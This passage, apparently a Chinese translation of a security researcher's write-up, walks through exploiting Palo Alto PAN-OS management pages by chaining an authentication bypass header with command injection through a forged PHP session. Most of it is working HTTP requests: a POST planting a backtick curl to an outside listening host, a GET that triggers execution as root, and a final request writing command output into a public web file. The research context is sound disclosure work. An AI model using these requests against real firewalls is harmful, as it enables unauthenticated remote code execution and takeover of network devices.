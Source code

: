 我们的理论很简单 - 通过“用户”参数传递的值可能会进入$_SESSION ['userName']，正如我们上面看到的，它看起来像是命令注入漏洞补丁的来源。  
  
不用担心 - 我们决定继续并创建一个有效的 HTTP 请求，使用我们前面提到的身份验证绕过，以及“用户”键的 HTTP post 参数值，其中包含curl对我们的外部监听主机的简单命令：  
```
POST /php/utils/createRemoteAppwebSession.php/aaaa.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

user=`curl {{listening-host}}`&userRole=superuser&remoteHost=&vsys=vsys1
```  
  
这将返回一个很好的 PHP 会话 ID 值：  
```
HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 09:06:44 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 48
Connection: keep-alive
Set-Cookie: PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache; no-store

@start@PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6@end@
```  
  
快速查看文件系统表明我们的有效载荷紧密位于会话内容中，并且如预期的那样，位于“userName”键中（即 $_SESSION['userName']）：  
```
[root@PA-VM /]# cat ./opt/pancfg/mgmt/phpsessions/sess_isbhbjpdkhvmkhio0hcpsgmtk6
cmsRemoteSession|s:1:"1";panorama_sessionid|s:5:"dummy";user|s:16:"XXXX";userName|s:52:"`curl {{listening-host}}`";userRole|s:9:"superuser"
```  
  
在这里，我们希望诚实地给出这个漏洞的真正位置，从源头到终端，的完整追踪，但是，有时候，你只需要用大锤而不是镊子。  
  
将有效载荷注入到正确的位置后，我们开始用闪亮的攻击所有端点PHPSESSID。由于受命令注入影响的代码位于审计日志编写代码中，我们只是冒险并发出了请求 - 使用我们在 index.php 上新创建和伪造的 PHP 会话。  
```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=2jq4l1nv43idudknmhj830vdde;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```  
  
底层的命令看起来有点像这样（感谢pspy！）：  
```
CMD: UID=0     PID=87502  | sh -c export panusername="`curl {{listening-host}}`";export superuser="1";export isxml="yes";/usr/local/bin/sdb -e -n ha.app.local.state
```  
  
请暂停一下。现在是 2024 年。我们已经表明了我们的观点，所以我们不再多说了。  
  
完整的链条看起来是这样的：  
```
POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

user=`echo $(uname -a) > /var/appweb/htdocs/unauth/watchTowr.php`&userRole=superuser&remoteHost=&vsys=vsys1
```  
```
```  
```
```